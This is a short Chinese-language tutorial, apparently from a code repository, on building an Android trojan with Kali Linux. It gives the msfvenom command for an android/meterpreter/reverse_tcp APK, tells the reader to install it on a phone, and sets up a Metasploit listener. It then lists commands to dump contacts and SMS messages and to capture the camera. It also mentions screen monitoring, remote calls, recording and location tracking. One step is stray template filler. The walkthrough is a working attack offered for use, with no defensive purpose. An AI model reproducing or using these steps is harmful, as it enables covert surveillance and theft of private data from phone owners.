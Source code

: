 # KaliLinux下编写安卓木马

## 1：查看本机IP地址；命令ifconfig

## 2：在终端输入 msfvenom -p android/meterpreter/reverse_tcp LHOST=本机ip LPORT=55555 R > /root/apk.apk

## 3：在这里输入你的内容，注意不要用删除键把所有文字删除，请保留一个或者用鼠标选取后TXT文档复制粘贴替换，防止格式错乱。

## 4：这时我们可以看到，桌面上生成了一个apk的文件。

![图片](./KaliLinux下编写安卓木马.assets/640.jpeg)

将其安装到手机

![图片](./KaliLinux下编写安卓木马.assets/640-1713269650610-1.jpeg)

![图片](./KaliLinux下编写安卓木马.assets/640-1713269650610-2.webp)

## 5：终端msfconsole



一，然后输入：

二，1. use exploit/multi/handler 加载模块

三，2. set payload android/meterpreter/reverse_tcp  选择Payload

四，3.show options 查看参数设置

![图片](./KaliLinux下编写安卓木马.assets/640-1713269650610-3.webp)



## 6：1.set LHOST 本机ip 这里的地址设置成我们刚才生成木马的IP地址



2.exploit 开始执行漏洞 开始监听...

![图片](./KaliLinux下编写安卓木马.assets/640-1713269650610-4.webp)

7：导出电话号码；命令dump_contacts

![图片](./KaliLinux下编写安卓木马.assets/640-1713269650610-5.webp)

截获短信；dump_sms    

![图片](./KaliLinux下编写安卓木马.assets/640-1713269650610-6.webp)

截取摄像头

![图片](./KaliLinux下编写安卓木马.assets/640-1713269650610-7.webp)

写在后面

当然还可以获取更多的信息，比如获取对方的屏幕的监控，远程拨打电话号码，开启电话录音功能，地位等等。